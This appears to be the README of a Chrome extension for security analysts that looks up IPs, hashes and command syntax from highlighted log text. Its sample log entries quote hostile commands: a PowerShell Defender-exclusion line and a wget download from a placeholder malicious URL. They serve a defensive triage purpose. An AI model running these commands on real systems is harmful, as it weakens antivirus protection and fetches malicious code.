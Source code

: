 # Identify IPs, domains, hashes, operating system commands with one click without leaving your browser tab.

SOCMaster can allow security analysts, system administrators, or incident responders to quickly look up artifacts on their SIEM or any web application containing log files. This tool may reduce triage and investigation times as well as headaches from manually searching IP addresses or operating system commands that require multiple tabs to keep track of.

## How to use

1. Highlight an artifact and Rightclick
2. Select "SOCMaster"
3. Click one of the options available
4. Menu will appear on lower right side containing information about the artifacts

## Configuration

To query IP, Domain, and Hash using vendor API keys, the API key is required. Follow the steps:

1. Click Extensions icon in Google Chrome's upper right menu
2. Click "SOCMaster" > Settings
3. On the settings page, on the upper right corner click "Add API key"
4. On intel source selection, select API key vendor
5. Paste Vendor API key on the field
6. Click save
7. API key now added, IP/Domain/Hash scan using vendor API keys can now be used

## Example use case:

* Suspicious PowerShell logs show: Set-MpPreference -ExclusionPath "C:\users\public\documents\sucmra"  

A user can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

* Suspicious IP address from the firewall logs: 1.2.3.4  
  
A user can highlight and select the "IP scan using vendor API keys" option and will be able to view IP reputation and data from vendors.  

* Suspicious linux command show wget http://malicious_url -O  
  
A user can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

* A system administrator forgot the parameters for the creating a new AD user using New-ADUser cmdlet  

The administrator can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

# Credits

This chrome extension uses following websites as reference data:

https://lolbas-project.github.io/
https://gtfobins.github.io/
https://ss64.com/
https://man7.org/
https://linux.die.net/
https://learn.microsoft.com/en-us/powershell/module/
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands
